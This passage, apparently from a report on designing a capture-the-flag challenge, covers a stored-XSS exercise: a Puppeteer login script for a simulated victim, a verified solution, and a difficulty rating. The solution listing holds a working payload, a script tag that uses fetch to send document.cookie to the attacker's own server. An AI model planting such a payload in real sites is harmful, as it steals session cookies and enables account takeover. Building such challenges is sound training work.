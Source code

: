 \begin{verbatim}
...
const LOGIN_USERNAME_SELECTOR = "#username";
const LOGIN_PASSWORD_SELECTOR = "#password";
const LOGIN_BUTTON_SELECTOR = "#login-btn";
...
await page.goto(LOGIN_PAGE_URL);
await page.locator(LOGIN_USERNAME_SELECTOR).fill(USERNAME);
await page.locator(LOGIN_PASSWORD_SELECTOR).fill(PASSWORD);
await page.locator(LOGIN_BUTTON_SELECTOR).click();
...
  \end{verbatim}
\begin{listing}[H]
  \vspace {-1.5\baselineskip} %
 \caption{Login using Puppeteer}
\label{lst:xss-login}
\end{listing}

\subsubsection{Testing}

To test our challenge, we have created a solution that mimics the steps the participant will have to take, as described earlier. The body of the post from our solution can be seen in Listing \ref{lst:xss-content}. It contains a \texttt{<script>} tag which uses the \texttt{fetch} function to perform a GET request, embedding the cookies as query parameters in the request URL.

\begin{listing}[H]
  \begin{verbatim}
const POST_BODY = `Very cool body.<script>fetch('http://${sshIpAddress}:${HTTP_SERVER_PORT}
    ?'%2Bdocument.cookie);</script>`;
  \end{verbatim}
  \vspace{-1.5\baselineskip} %
 \caption{Post body from solution}
\label{lst:xss-content}
\end{listing}
\noindent
The challenge has been verified on the CTF platform with challenge ID: \\\texttt{0a516902-9dde-4add-b877-835de1c0ae21}.

\subsubsection{Difficulty Assessment}

We mark this challenge as medium difficulty. The participant needs to be able to realize the website is vulnerable to XSS and that the authentication cookies are available in client-side scripts. They then need to combine this knowledge and execute an attack. The challenge is quite easy if they know about XSS and httpOnly cookies, but it becomes harder if they don't.

